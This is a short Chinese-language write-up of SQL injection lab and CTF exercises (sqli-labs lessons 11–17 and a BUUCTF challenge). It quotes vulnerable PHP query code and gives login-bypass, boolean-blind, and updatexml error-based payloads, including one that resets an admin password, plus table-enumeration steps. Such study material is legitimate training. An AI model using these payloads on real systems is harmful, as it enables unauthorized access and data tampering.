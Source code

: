     @$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
    	$result=mysql_query($sql);
    	$row = mysql_fetch_array($result);

payload：
    uname=1' or 1=1 #&passwd=2 &submit=Submit 
这里只能用#，用--+不行，未知原因

###lab12###
和lab11类似，触发漏洞由'变为")

###lab13###
和lab12类似，触发漏洞变为')

###lab14###
和lab12类似，触发漏洞变为"

###lab15和lab16###
分别为单引号闭合的布尔盲注和")闭合的布尔盲注，猜解即可。

    uname=1' or length(database())=8 or 1=2#&passwd= 1'&submit=Submit

###lab17###
界面为password reset，考察update的注入
要求输入username和password

模板为：UPDATE table SET id = id + 1;

猜测源码：

    "UPDATE users SET password = '$passwd' WHERE username='uname'";

对照源码：

	@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
    if($row)
    	{
    		$row1 = $row['username'];  	
    		$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
    		mysql_query($update);
      		echo "<br>";
发现uname位置不存在注入，password处可以注入。

payload：

    uname=admin&passwd=1' or updatexml(1,concat(0x7e,(version()),0x7e),0) or '&submit=Submit

需要提前知晓用户名，如admin，然后用两个or断开，成功修改admin的密码。若不存在admin，则会失败报错



##三、BUU##

###2019随便注###
存在字符select，update, delete,where,insert字符串的过滤
发现show没有过滤
1.show databases 回显数据库
2.show tables 会显表，发现有wors 和 1911191919119两个表
3.show columns from \`1911191919119`, 注意这里用符号\`,表明是表名、列名、数据库名等，不用则失败；words表可以不加该符号，能够识别。发现了存在flag的column
